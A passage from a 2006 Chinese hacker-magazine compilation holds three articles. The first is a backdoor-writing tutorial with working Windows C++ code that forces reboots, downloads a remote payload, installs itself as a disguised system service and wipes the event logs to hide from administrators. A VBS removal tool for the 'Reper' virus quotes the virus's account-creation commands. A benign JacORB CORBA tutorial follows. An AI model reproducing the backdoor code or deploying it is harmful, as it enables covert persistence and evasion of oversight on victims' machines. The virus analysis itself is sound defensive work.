哎，痛定思痛，现在我就把关于编写后门程序的几个简单而又关键编程技术总结一下，送给广大初学者后门编程的读者朋友。废话少说，盘点开始！以下实例均在（Windows XP+SP1）+（VC6.0+SP6）环境中编译通过。

### 技术实现一：获得操作系统版本

这个技术好像没什么技术含量，但获得操作系统版本信息是很重要的。基本上所有的木马和后门都离不开操作系统版本的判断。因为Windows 2000/XP和Windows 9x有很大的区别，即使在Windows 2000和Windows XP下，有时也要区别对待，比如有时进行IPC连接，两者对IPC匿名共享的默认权限是不一样的，甚至同一版本的不同SP包，有时也有很大区别，在写Exploit利用程序的时候尤为明显。下面我们就看看如何得到一个操作系统的版本信息。其实很简单，一个结构，一个函数就可以搞定。示例代码如下：

```cpp
OSVERSIONINFO osvi;
osvi.dwOSVersionInfoSize = sizeof(OSVERSIONINFO);
GetVersionEx(&osvi);
if (osvi.dwPlatformId==VER_PLATFORM_WIN32_
WINDOWS)
    printf("Win9x\n");
if (osvi.dwPlatformId==VER_PLATFORM_WIN32_NT)
    printf("WinNT\n");
```

可以看到，OSVERSIONINFO结构体里存放着Windows操作系统版本信息。需要注意的是，在调用GetVersionEx之前，必须对osvi.dwOSVersionInfoSize做初始化工作。我们在Win32编程中常会遇到类似的结构，都包括了一个结构大小的成员。在调用API之前必须对该成员进行初始化工作，在后面将要讲到STARTUPINFO结构也同样如此。很多人不了解为什么，其实初始化的作用主要是为了版本控制，以防Microsoft在将来的Win32中扩充该结构。这里，我们只是简单判断了操作系统是Windows 9x或Windows NT。如果你想得到更详细的信息，比如Windwos 2000、Windwos XP还是Windwos 2003，可以通过比较OSVERSIONINFO结构的dwMajorVersion和dwMinorVersion成员来得到。比如

```cpp
if (osvi.dwPlatformId==VER_PLATFORM_WIN32_NT)
{
    if (osvi.dwMajorVersion==5&&osvi.
dwMinorVersion==0){
        printf("Win2000\n");
    }
    else if (osvi.dwMajorVersion==5 && osvi.
dwMinorVersion==1){
        printf("WinXP\n");
    }
    else
        printf("Windwos 2003\n");
}
```

如果dwMajorVerison为4，则是Windows NT4.0 为5则为2000以上版本（最新的Longhorn，Microsoft好像不打算改名，据说它的这个值为6）；为0，是Windows 2000；为1，是Windows XP；为2，是Windows 2003。至于Windows的Services Packet版本，大家也同样可以得到。这就要留给读者自己查MSDN了，毛主席说过 自己动手，丰衣足食嘛，想学编程不动手怎么行！

### 技术实现二：控制关/重启对方主机

这个功能基本上也是所有后门和木马必有的功能之一。你想，能随意操纵对方机器开关机，那是多么自豪的一件事！当然，这不是主要目的，我想主要在于控制者在给目标主机放了下“关机”程序的时候，必须重启目标机以达到立即运行该“关机”程序的目的。如果没记错的话，黑防以前刊出过N多实现这个功能的文章吧？我也“偷学”了不少，嘿嘿。为了完整性，我还是简单地介绍一下，算是给刚入门的DDMM们的学习资料。示例代码如下：

```cpp
HANDLE hToken;
LUID luid;
TOKEN_PRIVILEGES tkp;
//以查询和调整特权的访问权限打开当前进程
if (!OpenProcessToken(GetCurrentProcess(),
TOKEN_QUERY|TOKEN_ADJUST_PRIVILEGES, &hToken)
{
    // 打开失败
    printf("OpenProcessToken failed %d\n", GetLastError());
    return;
}
// 获得本机SE_SHUTDOWN_NAME的本地唯一标识号
if(!LookupPrivilegeValue(NULL, SE_SHUTDOWN_NAME, &luid))
{
    printf("LookupPrivilegeValue failed %d\n", GetLastError());
    return;
}
tkp.PrivilegeCount = 1;
tkp.Privileges[0].Luid = luid;
tkp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
// 提升权限
AdjustTokenPrivileges(&hToken, FALSE, &tkp, sizeof(tkp), NULL, 0);
// 重启 / 关闭系统
ExitWindowsEx(EWX_REBOOT|EWX_FORCE, 0);
CloseHandle(hToken);
```

这里,对于Windows NT/2000以上操作系统,我们必须使程序获得SE_SHUTDOWN_NAME权限才能成功关闭计算机。ExitWindowsEx()函数是用来关闭系统的,如果函数成功调用,系统对每个窗口发送WM_QUERYENDSESSION消息,询问窗口所属的程序是否可以被终止。收到此消息的程序应该进行响应,清除环境释放资源,然后返回TRUE表示自己可以被终止。然而调用ExitWindowsEx的时候如果指定了EWX_FORCE,则系统强行终止相关的进程并关闭,这样可能导致数据的丢失。对于Windows 9x就简单多了,我们不需要提升权限的步骤,直接调用ExitWindowsEx()就可以达到目的(瞧,我们前面的对操作系统进行判断这里就立马产生作用了吧)。

### 技术实现三: 指定HTTP地址下载文件

这也是一般网页木马所使用的伎俩,让受害主机定时向控制者提交的网页上查询是否有文件要被下载,如有,就下载。这样就使后门或木马的控制者给目标上传文件多了一种选择,而且这样的方式是比较安全的。因为没有几个被害者或目标机上的防火墙会禁用本地的HTTP下载方式吧?该技术的编程实现就更简单了。核心是利用了一个函数URLDownloadToFile(),该函数按位从Internet下载并保存到本地主机上。下面是示例代码:

```cpp
HRESULT hResult;
char seps[] = "/"; // 分隔符
char *token;
char *file;
char szURL[MAX_PATH]; // 存放URL地址
char ExeFile[MAX_PATH];
//演示用,我们传递一个URL,比如http://www.xxx/backdoor.exe
strcpy(szURL, argv[1]);
token = strtok(szURL, seps);
while(token != NULL)
{
    file = token; // 循环至最后,我们得到的*file是backdoor.exe
    token = strtok(NULL, seps);
}
// 获得当前目录路径,比如: C:\Windows\System32
GetCurrentDirectory(MAX_PATH, szExeFile);
strcat(szExeFile, "\\");
strcat(szExeFile, file); // 得到文件绝对路径C:\Windows\System32\backdoor.exe

hResult = URLDownloadToFile(0, argv[1], szExeFile, 0, 0);

if(hResult == S_OK) //S_OK 成功
    printf("Download file ok\n");
else
    printf("Download file failed\n");
```

呵呵,是不是很简单? 我们平时用IE下载东西也只是调用了这么一个函数而已。

### 技术实现四: 把后门安装为系统服务

我们安装后门后,肯定希望目标主机每次开机都运行我们的后门,传统的方式要么采用修改win.ini、system.ini或autoexec.bat文件,要么就是修改注册表键值HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run。自从NT/2000添加了服务的概念以后,很多黑客便开始利用服务在系统启动时它也启动的特性,达到自启动的目的,而且不容易被发现。下面我们分别来讨论服务的安装,然后再来实现服务的主体运行程序。

在Windows 2000的Resource kits下有个叫Instsrv.exe的小工具,可以用来安装或卸载可执行服务。下面这一段示例代码就可以实现Instsrv.exe的编制。

```cpp
void main()
{
    SC_HANDLE hSCManager = NULL; //服务控制管理器句柄
    hService = NULL; // 服务句柄
    char szSysPath[MAX_PATH]={0}; // 系统目录路径
    szExePath[MAX_PATH]={0}; // 我们要把后门程序放在这里,一般就是在\admin$\system32\里,隐蔽性高

    if ((hSCManager = OpenSCManager(NULL,
        NULL, // 要打开的服务控制管理数据库,默认为空
        SC_MANAGER_CREATE_SERVICE// 创建权限
        ))==NULL)
    {
        printf("OpenSCManager failed\n");
        return;
    }

    GetSystemDirectory(szSysPath, MAX_PATH); // 获得系统目录,也就是system32里面,隐蔽起来
    strcpy(szExePath, szSysPath);
    strcat(szExePath, "scuhkr.exe"); // 应用程序绝对路径

    if ((hService=CreateService(hSCManager, // 指向服务控制管理数据库的句柄
        "scuhkr", // 服务名
        "scuhkr backdoor service", // 显示用的服务名
        SERVICE_ALL_ACCESS, // 所有访问权限
        SERVICE_WIN32_OWN_PROCESS, // 私有类型
        SERVICE_DEMAND_START, // 自启动类型
        SERVICE_ERROR_IGNORE, // 忽略错误处理
```


www.hacker.com.cn
2006 精华奉献本 下册


szExePath; // 应用程序路径
NULL,
NULL,
NULL,
NULL,
NULL)) == NULL)
{
printf("%d\n", GetLastError());
return;
}
printf("Install service successfully\n ");
CloseServiceHandle(hService); // 关闭服务句柄
CloseServiceHandle(hSCManager); // 关闭服务管理数据库句柄
}
```

这里注释已经讲得很清楚了，大家一看就明白，主要利用了两个API，OpenSCManager()用来打开服务系统管理数据库，CreateService()用来创建服务。我们创建一个服务名为Scuhkr，是开机自启动方式的服务。此后在控制面板—>管理工具—>服务里看到我们所创建的服务。当然，由于是做后门，可以把服务名改得更隐蔽，把服务的描述写得更吓人。至于szExePath，我注释为应用程序路径，既可以是后门自身的绝对路径，也可以是我们要通过前面http下载的文件所在的绝对路径。对于系统服务级后门的详细描述，可以参考我写的《服务级后门自己做》一文。

小菜：在Windows XP系统的控制台命令行里，提供了一个sc.exe小程序，当你安装完服务后，可以在Shell下输入：“sc qc scuhkr”。呵呵，你会有新发现哦。自己赶快动手试试吧。

### 技术实现五：清除系统日志

记得张国立在冯小刚导演的《手机》里，用四川话意味深长地对葛优说过一句话：“做人要厚道！”，当时我是乐得开怀大笑！嘿嘿，做黑客苦啊！同时又还要“厚道”——难啊！

小时候偷吃家里的糖果、饼干什么的，最后一件必做的事就是“偷吃后抹嘴”。同样，我们利用后门或木马做完“坏事”后，一定要记得删除系统日志。否则，很容易被有经验的管理员逮到你的狐狸尾巴。所以，清除系统日志文件几乎成了后门/木马的必备功能。下面我们先看看具体的实现代码吧，然后介绍相关的一些知识。

```
#include <windows.h>
#include <stdio.h>

BOOL DelLogFile(const char* szLogName)
{
    HANDLE      hHandle;
    BOOL   bOk = FALSE;

    // 打开事件日志文件
    hHandle = OpenEventLog(NULL,                 // NULL 表本地主机
                           szLogName);   // 日志文件名
    if (!hHandle) {
        return FALSE;
    }

    // 清除事件日志文件
    if (ClearEventLog(hHandle, NULL)) {
        bOk = TRUE;
    }

    CloseEventLog(hHandle);

    return bOk;
}

void main()
{
    char logName[3][16] =
    {
        "Application", "Security", "System"
    };

    for (int i=0; i<3; i++)
    {
        if (DelLogFile(logName[i]))
        {
            printf("DelLogFile %s Ok\n", logName[i]);
        }
    }
}
```

上面的代码我们只利用了两个API函数，OpenEventLog()和ClearEventLog()。没那么简单吧？呵呵，就这么简单。是不是很有成就感呢！在Windows 2000/XP的%winsystem%\\system32\\config\\目录下存在3个以后缀“.Evt”结尾的文件，分别是AppEvent.Evt、SecEvent.Evt、SysEvent.Evt。大家看到我在main()函数里给logName二维数组赋的初始值了吗？刚好分别对应这3个文件，它们的作用如下。

- Application Log 包括用2K/XP SECURITY AUTHORITY注册的应用程序产生的信息；
- Security Log 包括有关通过2K/XP可识别安全提供者和客户的系统访问信息；
- System Log: 包含所有系统相关事件的信息。

可以看到，系统管理员正是利用控制面板—>管理工具—>事件查看程序Eventvwr.exe来跟踪和查找各种重要的信息的。现在，我们可以轻易地将这些日志咔嘹咔嘹扔掉，快哉！

以上所讨论的都是比较简单的后门技术，其实算不上技术了，充其量只是实现了小功能而已，但是要知道千里之行，始于足下。对于初学编程而又对后门或木马技术很感兴趣的朋友来说，我相信这还是有一定的帮助。当我看到WinEggDrop后门程序的介绍时，我几乎惊呆了，“这怎么可能？”这是我的第一反应，发自内心的佩服WinEggDrop，最大限度地将一个后门程序做到了几近完美。呵呵，于是狂读代码，努力学习……

对喜欢黑客技术而且爱看黑防的战友们说一句，“虽然前面的路还很遥远，但我们会继续努力，因为这是一种执着，对黑客技术无限的执着！加油吧，我们一起！”

适合读者：程序员
前置知识 VBS语言基础

## VBS打造病毒专杀工具

文/图 Liontooth

2004年12月，一个小的个人病毒把学校搞乱了。这是一个初级病毒，没有什么高深的技术含量，就是不知道哪位练手写来玩的。由于传播不广，杀毒公司没有相应的病毒库，而普通的电脑使用者搞不定。我就只好献丑，自己用VBS写了一个专杀工具(后来瑞星终于可以查到了，而且把它定名成了“推销员病毒 Trojan.Reper”)。

首先分析病毒体。在运行以后，病毒会屏蔽CMD、任务管理器等，并且在每个系统逻辑分区下建立两个隐藏文件: autorun.inf和reper.exe。所以病毒的主要传播方式是U盘。Reper.exe是文本文件的图标，具有一定的迷惑性。“Autorun.inf”里的内容如下:

```
[autorun]
open=reper.exe
```

可见，如果没有禁止硬盘的自动播放，则在盘符上双击鼠标左键就会运行Reper.exe。OK，首先把病毒体Copy到其他地方，用PEiD查看，病毒体用UPX加过壳“UPX 0.89.6 - 1.02 / 1.05 - 1.24 -> Markus & Laszlo”。使用UPXUnpack对程序进行脱壳，成功完成。程序体由39.5KB变成了228KB，压缩比很高啊！

到这里就不得不说说黑防的攻防实验室了，让我养成了遇到什么都要用记事本打开看看的习惯，总能有意外的惊喜。这次也不例外，用记事本打开脱壳后的病毒体，耐心向下看，可以找到一些字符串:

```
nuslee open notepad.exe .TXT .txt nothing
%explorer.exe %s reper.exe %l txtfile\shell\open\command
Services Software\Microsoft\Windows\CurrentVersion\Run
C:\Documents and Settings\%s\桌面\desktop.bat C:
\Documents and Settings\%s\「开始」菜单\程序\启动\login.
pif %system32\rundll32.exe %s\svchost.
exe ..\autorun.inf %c\s :\reper.exe kill doctor
杀 木马 wom 毒 task 任务 priev 进程 proc list
task . regedit.exe Windows 任务管理器 C:\Documents
and Settings\All Users\「开始」菜单\程序\启动\login.pif C:
\Documents and Settings\All Users\桌面\readmescr C:\autoexec.
bat [autorun]
    open=reper.exe    set path=%s;%s;%s\Wbem;
    net user guest /active:yes
    net user %s /add
    net localgroup administrators %s /add
    net user %s /delete
echo Let's share the virus... *^^*...and No KeyWords...>
C:\readme.txt
```

嗯，不错不错，它的大体功能都出来了。一个一个搞定吧！可以看到首先它改了注册表，加入了TXT文件关联，并且加入了启动项。然后在C盘的不同地方分别把病毒体Copy过去，并且改了名字。而诸如“kill，doctor，杀，木马……”，只要运行包含这些字符(串)的程序，病毒就停止这些程序的运行，以此来保护自身不被杀掉。最可恶的是在C 的根目录下建立一个Autoexec.bat，这个自动批处理文件会把Guest用户激活，并且建立一个当前用户名置反的用户，并删除当前的用户。这个才是它最大的危害之处，如果处理不当，则很容易丢东西。

不过，既然知道了，它就没法在我的爱机上乱搞了，动手干掉它！手动杀没问题，就是比较麻烦，要是一个不留神漏了一个还得从头再来。那就拿VBS写一个好了，简单易用，还可以随时调试。以下是程序代码，我把各个功能模块都提取了出来，希望新手能看明白:

```vb
'---------------------------------------------------------
'!Damn Reper v1.2 (For Windows 2000/2003/XP)
'Code by (C) Liontooth 13/12/2004
'Displse the author of "reper"!
'---------------------------------------------------------

Dim mystr
mystr=msgbox("是否运行Reper专杀工具?",4+32,"Damn Reper v1.2")
If mystr = vbNo Then
    WScript.Quit
End If
On error resume next
'开启错误陷阱
Set objfso = CreateObject("Scripting.FileSystemObject")
Set objNetwork = CreateObject("Wscript.Network")
set sysroot=objfso.getspecialfolder(0)
'定义%windir%到变量sysroot
set sys32=objfso.getspecialfolder(1)
'定义%windir%\system32\到变量sys32
set coldrives = objfso.drives
'定义逻辑分区到coldrives
'停止Reper.exe进程
strComputer = "."
Set objWMIService = GetObject("winmgmts:" _
    & "{impersonationLevel=impersonate}!\\" & _
    strComputer & "\root\cimv2")
Set colProcessList1 = objWMIService.ExecQuery _
    ("Select * from Win32_Process Where Name = 'reper.exe'")
For Each objProcess in colProcessList1
    objProcess.Terminate()
Next

'停止System.exe进程
Set colProcessList2 = objWMIService.ExecQuery _
    ("Select * from Win32_Process Where Name = 'system.exe'")
For Each objProcess in colProcessList2
    objProcess.Terminate()
Next

'停止Tsoner.exe进程
Set colProcessList3 = objWMIService.ExecQuery _
    ("Select * from Win32_Process Where Name = 'tsoner.exe'")
For Each objProcess in colProcessList3
    objProcess.Terminate()
Next

'停止Viewer.exe进程
Set colProcessList4 = objWMIService.ExecQuery _
    ("Select * from Win32_Process Where Name = 'viewer.exe'")
For Each objProcess in colProcessList4
    objProcess.Terminate()
Next

'停止NOTEPAD.exe进程(此处是数字0,而不是字母O):
Set colProcessList5 = objWMIService.ExecQuery _
    ("Select * from Win32_Process Where Name = 'NOTEPAD.EXE'")
For Each objProcess in colProcessList5
    objProcess.Terminate()
Next

'停止Rundll32.exe进程(d后面的是数字1,而不是字母l ):
Set colProcessList6 = objWMIService.ExecQuery _
    ("Select * from Win32_Process Where Name = 'rundll32.exe'")
For Each objProcess in colProcessList6
    objProcess.Terminate()
Next

'停止Svchost.exe进程(此处是病毒体,因为运行权限低,所以可以直接用脚本停掉,而系统的Svchost.exe不会被这个脚本停止):
Set colProcessList7 = objWMIService.ExecQuery _
    ("Select * from Win32_Process Where Name = 'svchost.exe'")
For Each objProcess in colProcessList7
    objProcess.Terminate()
Next

'停止Startup.pif进程
Set colProcessList8 = objWMIService.ExecQuery _
    ("Select * from Win32_Process Where Name = 'startup.pif'")
For Each objProcess in colProcessList8
    objProcess.Terminate()
Next

'停止login.pif进程
Set colProcessList9 = objWMIService.ExecQuery _
    ("Select * from Win32_Process Where Name = 'login.pif'")
For Each objProcess in colProcessList9
    objProcess.Terminate()
Next

'停止Readme.scr进程
Set colProcessList0 = objWMIService.ExecQuery _
    ("Select * from Win32_Process Where Name = 'readme.scr'")
For Each objProcess in colProcessList0
    objProcess.Terminate()
Next

'删除所有逻辑分区下的Reper.exe
for each objdrive in coldrives
    letter = objdrive.DriveLetter
    If objDrive.IsReady = True Then
        objFSO.DeleteFile(letter&":\reper.exe")
    end if
next

'删除所有逻辑分区下的System.exe
for each objdrive in coldrives
    letter = objdrive.DriveLetter
    If objDrive.IsReady = True Then
        objFSO.DeleteFile(letter&":\system.exe")
    end if
next

'删除所有逻辑分区下的Autorun.inf
for each objdrive in coldrives
    letter = objdrive.DriveLetter
    If objDrive.IsReady = True Then
        objFSO.DeleteFile(letter&":\autorun.inf")
    end if
next

'删除各个文件夹下的病毒体和病毒生成的文件
objfso.deletefile("C:\Documents and Settings\All Users\「开始」菜单\程序\启动\startup.pif")
objfso.deletefile("C:\Documents and Settings\All Users\「开始」菜单\程序\启动\login.pif")
objfso.deletefile("C:\Documents and Settings\All Users\桌面\readme.scr")
objfso.DeleteFile(sysroot&"\viewer.exe")
objfso.DeleteFile(sysroot&"\svchost.exe")
objfso.deletefile(sys32&"\tsoner.exe")
objfso.deletefile(sys32&"\NOTEPAD.exe")
objfso.deletefile(sys32&"\rundll32.exe")
objfso.deletefile("C:\autoexec.bat")
objfso.deletefile("C:\readme.txt")

'删除"c:\Documents and Settings\"下,所有用户的"「开始」菜单\程序\启动\"中的login.pif:
strComputer = objNetwork.ComputerName
Set colAccounts = GetObject("WinNT://" & strComputer & ",")
colAccounts.Filter = Array("user")
For Each objUser In colAccounts
    objFSO.DeleteFile("c:\Documents and Settings\"&objUser.Name&"\「开始」菜单\程序\启动\login.pif")
Next

'删除所有的Desktop.bat
For Each objUser In colAccounts
    objFSO.DeleteFile("C:\Documents and Settings\"&objUser.Name&"\桌面\desktop.bat")
Next

'删除注册表中的病毒启动项:
const HKEY_LOCAL_MACHINE = &H80000002
strComputer = "."
Set oReg=GetObject("winmgmts:{impersonationLevel=impersonate}!\\" & strComputer & "\root\default:StdRegProv")
```

栏目编辑: 刘云龙  投稿信箱: net_lu@hotmail.com  www.hacker.com.cn
2006 精华奉献本 下册 211


```
strKeyPath1 =  "S O F T W A R E \
Microsoft\Windows\CurrentVersion\Run"
strStringValueName1 = "runreper"
strStringValueName2 = "RUNEXIE"
strStringValueName3 = "Services"
oReg.DeleteValue HKEY_LOCAL_MACHINE, strKeyPath1,strStringValueName1
oReg.DeleteValue HKEY_LOCAL_MACHINE, strKeyPath1,strStringValueName2
oReg.DeleteValue HKEY_LOCAL_MACHINE, strKeyPath1,strStringValueName3
```

恢复txt文件的注册表关联

```
const HKEY_CLASSES_ROOT = &H80000000
strKeyPath2 = "txtfile\shell\open\command"
strValueName = ""
strValue = "notepad.exe %1"
oReg.SetExpandedStringValue HKEY_CLASSES_ROOT, strKeyPath2,strValueName,strValue
m y s t r = m s g b o x (" 所有的Reper 病毒都已清除!
&vbcrlf&"Copyright (C) 2004 Liontooth",48,"Damn
```

```
Reper v1.2")
'---------------------End----------------------
```

以上代码，只要保存成“.vbs“的扩展名，在Administrator的权限下运行后出现最后的提示，就说明Reper病毒已经被彻底清理干净了。因为脚本为了防止出错，开了错误陷阱，而有些系统的ActiveX 部件不能创建FSO对象。这个时候程序运行了以后没有任何提示，但是却不能正确执行程序。这个时候，只要在”运行“里使用”regsvr32 scrrun.dll“就可以解决了。
这个程序我用了一个上午的时间写完，后来又逐渐完善的。其实VBS我也是刚接触，有什么不对的地方敬请指正！
对于病毒，我们大可不必惊慌。也不要过于依赖杀毒软件，它们不可能始终保障你的爱机不受侵害。”自己动手，丰衣足食“有时候，一些看似复杂的东西完全可以D I Y。

适合读者: Java程序员
前置知识: 无

### 用CORBA开发安全的电子商务系统

文/图 风之扬

CORBA是什么？了解Java的朋友一定有所耳闻。目前,基于CORBA的网上个人银行、股票交易系统、电子商务系统、网络管理系统已经遍布互联网,给我们带来了方便快捷的服务。

#### CORBA与系统安全

1.从电子商务系统看安全需求

电子商务是基于Internet/intranet或局域网、广域网,包括了从销售、市场到商业信息管理的全过程。现在,大多数电子商务系统是基于Web的,并且允许客户通过网络购买商品并用信用卡结账。然而,基于Web应用程序的局限功能使得很难向客户提供全范围的服务。因此,未来电子商务系统的安全性问题是：它们必须通过复杂的组件技术和信托关系在一个动态并开放,从而也是不受控制的环境中操作。多数电子商务使用的电子支付系统必须很容易使用,也必须透明地提供鉴定、完整性保护、机密性保护和认可。另外,客户和提供者之间的通信连接必须保持数据的机密性和完整性,首先保护客户的隐私,其次是确保客户购买的服务不能被篡改。看看网络上的大多数系统,我们会发现,很多都不能迎合这些关于功能性和安全性的需求。
下面的段落描述如何用CORBA来解决一些问题,CORBA安全性规范包括一个安全模式和为应用程序、管理程序和实现程序提供的接口和工具。规范中的通用安全互操作部分定义了通用安全性机制,使得可以安全互操作。

2.CORBA技术简介

CORBA(The Common Object Request Broker Architecture通用对象请求代理体系结构)是对象管理组织(OMG)1995年首先开发出来的一个规范。其核心部分是对象请求代理(ORB),是一个便于实现不同硬件和软件平台上的互操作和集成的软件总线。它是一个分布式的面向对象应用架构规范,可以让分布的应用程序完成通信,它能解决远程对象之间的互操作问题,让客户/服务器对象在特定的ORB(对象请求代理)实现中进行通信。CORBA 2.0标准真正实现了不同生产厂商间的互操作性。是真正跨平台的,同时CORBA通过IDL接口定义语言,能做到语言无关,任何语言都能制作CORBA组件,而CORBA组件能在任何语言下使用。以下是一个具体的结构,如图1所示。
因此,我们可以这样理解：CORBA一种异构平台下的语言无关的对象互操作模型。即CORBA的设计是独立于平台和语言的,可以在任何平台上运行,可以定位在网络的任何地方,能够使用任何有IDL(Interface Definition Language)映射的语言。


图1

3.CORBA和电子商务安全性

让我们回到现实的电子商务环境来看CORBA的安全性。CORBA安全服务规范提供了消息层完整性和负责者的鉴别/认可,这两项对电子商务应用程序十分关键。所有的客户和供应商应用程序都应该可以在一个灵活的、动态的、开放的框架中,跨越不同平台,不同编程语言和商业布局来互操作。于是,CORBA可以从开放的电子商务环境的复杂性中抽象出来,它也极大地方便了电子商务系统和其它系统之间的交互作用,比如股票管理系统、会计系统、行销系统等,并使得和以前的应用程序的之间集成变得容易,例如,一个旧的股票数据库系统。

为了使得商店组件的动态互用性运转起来,一套定义良好的标准服务需要在电子商务环境下可用。例如,用来描述对象(例如货物、服务、合同、发票或账单等)的语义需要广泛定义。因此,OMG和商业网(CommerceNet)共同定义了一系列电子商务服务的需求,也就是说,语义数据工具,选择/商议工具和支付服务。语义数据工具提供了对电子市场参与者之间语义信息交换的支持,商议服务提供了一组从事商业事务的参与者,在服务或工具的选择和配置上相互协定的支持,而电子支付工具关注支付协议的调用。CORBA还使得电子商务系统支持合成产品的概念和由多个提供者的相应项形成的服务包概念。例如,一个旅行社可以提供一个包括飞机票、旅店预约、汽车租赁和旅游向导等的旅行包。下面,我们通过具体的安装及调试来进一步了解CORBA的实现。具体环境为Windows 2000 Professional+Jbuilder 9+ JacORB_2_1。

#### JacORB 简介

免费工具JacORB就是一个免费的Java对象请求代理系统(CORBA),附带全部源代码,包含大部分CORBA对象服务的实现,以及大量的代码实例。

1. 软件下载

确认系统安装J s d k 1 . 4 ,并设置系统变量如: JAVA_HOME =D:\jdk1.4。

- 1)Ant
下载地址为 http://ant.apache.org/bindownload.cgi。然后,安装ant,并设置系统变量 path=D:\apache-ant-1.6.1\bin。
- 2)JacORB
下载地址:http://www.JacORB.org/download.html,下载版本JacORB_2_1-compact.zip(已经编译的版本),解压缩到磁盘上,例如D:\JacORB_2_1。

2. 环境设置

1)环境变量
为了在调试时可以找到有关包和JacORB.Properties配置文件,需要在系统环境变量中设置如下环境变量:

```
classpath=.;D:\JacORB_2_1\lib\idl.jar; D:\JacORB_2_1\lib\jacorb.jar;D:\JacORB_2_1\classes;D:\JacORB_2_1\bin
```

> 此处也可将Bin下面的所有.jar文件打成一个包,这样就只用花环境变量里边设置一次就行,省去了以后再次设置其余几个工具的麻烦。实际测试中发现,可能还要加入其它的JAR包才能正常启动服务。

2)命名服务设置

打开D:\JacORB_2_1\etc目录,把这个目录下的JacORB_properties.template文件复制到D:\JacORB_2_1\classes目录下,并更名为JacORB.properties。在Corba中,命名服务是非常重要的,编辑JacORB.properties文件,设置其中的ORBInitRef.NameService=file:/c:/NS_Ref(这里是示例,也可以为任何HttpURL或者其他路径),即将命名文件路径前的#去掉。这个NS_Ref文件会在启动命名服务时生成,配置文件的其余部分保留默认值即可,如

```
#ORBInitRef.NameService=corbaloc:160.45.110.41:38693/StandardNS/NameServer-POA/_root
ORBInitRef.NameService=file:/c:/NS_Ref
#ORBInitRef.NameService=http://www.x.y.z/user/NS_Ref
#ORBInitRef.TradingService=http://www.x.y.z/user/TraderRef
```

测试命名服务(Naming Service)是否可以正常启动,在DOS窗口下输入:

```
ns c:\NS_Ref
```

如果出现下面的信息,表明服务已经正常启动

```
[configuration loaded from classpath resource file:/D:/JacORB_2_1/classes/jacorb.properties]
JacORB V 2.1, www.jacorb.org
(C) Gerald Brose, XTRADYNE Technologies/FU Berlin, 16-Feb-2004
[jacorb.orb.intercept] INFO : InterceptorManager started with: 0 SIs, 0 CIs and 1 IORIs
[jacorb.naming] INFO : NS up
[jacorb.orb] INFO : ORB run
```

如果没有任何输出,可能是由于JacORB.properties文件没有放到Classpath所在的目录下。如果没有正确启动NS,运行下面的Demo时,可能会出现下面的异常:

```
[jacorb.orb.intercept] INFO : InterceptorManager started with: 0 SIs, 0 CIs and 1 IORIs ......
[jacorb.giop] INFO : ClientConnectionManager: created new conn to target 192.168.10.123:4089
[jacorb] ERROR : java.net.ConnectException: Connection refused: connect
```

#### DEMO下的Grid实例分析

正确启动NS后,DOS窗口转到Demo/grid目录下执行ANT(如果ANT没有安装则不会编译):

```
D:\JacORB_2_1\demo\grid>ant
```

这样会进行IDL编译器Server.idl文件,在D:\JacORB_2_1\demo\grid\generated下生成Corba所需的源文件。同时,ANT会编译所有的Java源文件,D:\JacORB_2_1\classes下面生成.class文件。由于在文件中设置了Build.xml文件,所以可以直接运行ANT来编译.idl文件,生成.java和编译成为.class文件,否则也可采用JacORB自带工具IDL对.idl文件进行翻译,具体步骤为:

```
D:\JacORB_2_1\demo\grid>idl -d ..\..\..\src\generated\ -ID:\JacORB_2_1\demo\grid\*.java的7个文件。
D:\JacORB_2_1\demo\grid>javac *.java
```

编译生成.class文件,注意在编译GridImpl文件时又要引用IDL生成的MyserverPOA文件,需要用到“-classpath”和“-d”的输出参数。

1. 运行Grid例子

本例实现了一个简单的服务。
1)首先参考第2步,验证NS是否已经正常启动
2)启动Grid服务器端
在DOS窗口中执行 jaco demo.grid.Server或者jaco demo.grid.TieServer,正常时将输出:

```
[configuration loaded from classpath resource file:/D:/ JacORB_2.1/classes/jacorb
.properties]
JacORB V 2.1, www.jacorb.org
(C) Gerald Brose, XTRADYNE Technolo- gies/FU Berlin, 16-Feb-2004
[jacorb.orb.intercept] INFO : InterceptorManager started with 0 SIs, 0 CIs and 1 IORIs
[jacorb.poa] INFO : oid: 00 11 4B 03 46 03 06 24 01 38 3F ..K.F..$ .8?
object is activated
[jacorb.giop] INFO : ClientConnectionManager: created new conn to target 192.168 .10.123:1357
[jacorb.iiop.conn] INFO : Connected to 192.168.10.123: 1357 from local port 1372
[jacorb.orb] INFO : ORB run
```

这时在NS输出窗口可以看到:
[JacORB.naming] INFO : Bound name: grid.example
另外,可以通过Jbuilder等IDE工具建立一个工程来运行Demo.grid.Server ,但是必须指定VM参数,结果是一样的。
-Djava.endorsed.dirs="D:\JacORB_2_1\lib"
3)启动Grid Client端
输入如下命令 jaco demo.grid.Client ,可以看到输出如下结果,说明已经成功运行了Grid例子。

```
Height = 31
Width = 14
Old value at (30,13): 0.21
Setting (30,13) to 470.11
New value at (30,13): 470.11
MyException, reason: This is only a test exception, no harm done :-)
```

2. Grid实例分析

JacORB的应用开发一般分为以下5步。

- 写IDL接口定义。
- 编译IDL接口定义生成Java类。
- 实现步骤2中生成的接口。
- 写服务器启动类,并注册到ORB。
- 写客户端去获取服务对象引用。

1)首先编写Server.idl文件
关于编写IDL,可以参考doc\ProgrammingGuide.pdf文档。

```
// grid.idl
// IDL definition of a 2-D grid:
module demo
{
    module grid
    {
        interface MyServer
        {
            typedef fixed <5,2> fixedT;
```

```
readonly attribute short height; // height of the grid
readonly attribute short width; // width of the grid
void set(in short n, in short m, in fixedT value);
fixedT get(in short n, in short m);
exception MyException
{
    string why;
};
short opWithException() raises( MyException );
};
};
```

2)利用工具 bin\idl.bat来编译server.idl
可以通过 idl -d ../.. server.idl命令来实现。下面是实现接口的相关类

```
public class gridImpl extends MyServerPOA
填写构造函数,以及接口等方法如:
```

```
public gridImpl()
public java.math.BigDecimal get(short n, short m)
public void set(short n, short m, java.math.BigDecimal value)
```

3)编写服务器
这一步要写一个类来调用GridImpl类,并将其注册到POA,这样远程对象才能通过MyServer接口来访问它。

```
// 初始化orb对象。
org.omg.CORBA.ORB orb = org.omg.CORBA.ORB.init(args, null);
// 使用POAHelper来实例化为POA的引用。
org.omg.PortableServer.POA poa = org.omg.PortableServer.POAHelper.narrow(orb.resolve_initial_references("RootPOA"));
// 激活该对象,否则还处于“保持状态”,无法处理任何请求。
poa.the_POAManager().activate();
